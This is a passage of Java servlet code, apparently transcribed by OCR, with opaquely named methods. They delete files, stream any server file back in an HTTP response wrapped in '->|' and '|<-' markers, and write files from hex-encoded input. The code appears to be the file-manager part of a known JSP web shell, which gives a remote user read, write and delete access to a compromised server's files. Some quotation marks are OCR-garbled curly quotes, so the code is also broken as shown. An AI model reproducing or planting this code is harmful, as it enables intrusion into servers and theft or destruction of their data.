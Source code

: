 ```
EE(x[k].getPath());

}

}

}

f.delete();

}

void FF(String s, HttpServletResponse r) throws Exception {

int n;

byte[] b = new byte[512];

r.reset();

ServletOutputStream os = r.getOutputStream();

BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));

os.write(("->" + “|”).getBytes(), 0, 3);

while ((n = is.read(b, 0, 512)) != -1) {

os.write(b, 0, n);

}

os.write(("|" + “<-”).getBytes(), 0, 3);

os.close();

is.close();

}

void GG(String s, String d) throws Exception {

String h = “0123456789ABCDEF”;

File f = new File(s);

f.createNewFile();

FileOutputStream os = new FileOutputStream(f);

for (int i = 0; i < d.length(); i += 2) {

os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));

}

os.close();

}

void HH(String s, String d) throws Exception {

File sf = new File(s), df = new File(d);
```
